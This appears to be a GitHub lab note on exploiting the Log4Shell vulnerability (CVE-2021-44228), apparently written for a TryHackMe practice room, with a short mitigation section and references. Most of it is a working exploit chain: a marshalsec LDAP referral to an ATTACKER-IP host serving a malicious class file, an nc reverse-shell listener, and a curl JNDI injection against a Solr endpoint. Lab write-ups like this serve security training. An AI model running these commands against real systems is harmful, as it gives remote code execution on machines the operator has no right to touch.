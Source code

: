 
### Log4j2 Vulnerability Details: (CVE-2021-44228)

#### Info
- Sandbox - https://tryhackme.com/r/room/solar
  - You can use WSL on windows via VPN as a attacker sandbox system.
- Sandbox ( Video ) - https://www.youtube.com/watch?v=lJeAgQQaDEw
- Sandbox LDAP Server - https://github.com/mbechler/marshalsec.git

#### Gist
The exploit is enabled by these following commands :
1. Start the referral LDAP Server ( catches the lookup and forwards to malicious server )
   /mnt/c/_TEMP/LOG4JHACK/jvm8/jdk1.8.0_181/bin/java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKER-IP:8000/#Exploit"

2. Prep the attacker server to serve the malicious Exploit.class
   python3 -m http.server 8000

3. Prepare the machine to catch the reverse connection using nc
   nc -lnvp 9999

4. Trigger the exploit by query injection in target machine
   curl 'http://TARGET-IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACKER-IP:1389/kuchbhi\}'

#### Vulnerable Versions
- jdk-8u181 - Java 1.8.0_181
- log4j-api:2.14.1

#### Useful commands :
- `sudo openvpn file.ovpn`
- `ip addr show | grep inet | grep global`
- `nc -lnvp 9999`
- `python3 -m http.server 8000`
- `curl 'http://TARGET-IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACKER-IP:9999\}'`
- `mvn clean package -DskipTests`

#### Mitigation
- `-Dlog4j2.formatMsgNoLookups=true`
- When log4j2.formatMsgNoLookups=true is set, it prevents Log4j from performing these lookups during message formatting, thus disabling any dynamic evaluation of ${} placeholders in the log messages.

#### References 
- jdk-8u181-linux-x64.tar.gz - https://www.oracle.com/in/java/technologies/javase/javase8-archive-downloads.html
- https://en.wikipedia.org/wiki/Log4Shell
- https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/
